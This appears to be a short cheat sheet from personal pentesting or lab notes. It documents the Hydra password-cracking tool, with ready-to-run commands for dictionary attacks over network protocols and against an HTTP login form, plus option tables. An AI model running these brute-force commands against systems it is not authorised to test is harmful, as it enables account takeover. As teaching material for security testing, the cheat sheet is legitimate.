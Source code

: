 Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more.

# Protocol
```shell
hydra Target_IP PROTOCOL -t 16 -l John -P rockyou.txt -vV 
```

| Option     | Function                                     |
| ---------- | -------------------------------------------- |
| `-t n`     | Number of parallel connections per target    |
| `-l`       | Name of the user (Uppercase for list)        |
| `-p`       | Password (Uppercase for list)                |
| `-v`       | Verbose                                      |
| `-vV`      | Very Verbose                                 |
| `PROTOCOL` | Sets the protocol (ej `ftp, rdp, ssh, etc.`) |


# Post Web Form
```sh
hydra -l '' -P 3digits.txt -f -v 10.10.73.59 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

| Option                                           | Description                                                                                                                                                                                                            |
| ------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-l NAME`                                        | indicates the login name                                                                                                                                                                                               |
| `-P WORDLIST`                                    | specifies the password file to use                                                                                                                                                                                     |
| `-f`                                             | stops Hydra after finding a working password                                                                                                                                                                           |
| `-v`                                             | verbose                                                                                                                                                                                                                |
| `http-post-form`                                 | Specifies the HTTP method to use                                                                                                                                                                                       |
| `"/PAGE:PASS_VARIABLE_NAME=^PASS^:INVALID_TEXT"` | Has three parts separated by :, first the page where the HTTP is submitted, Where it will replace `^PASS^` with the values from the password list. Indicates that invalid passwords will lead to a page with that text |
| `-s PORT`                                        | indicates the port number                                                                                                                                                                                              |


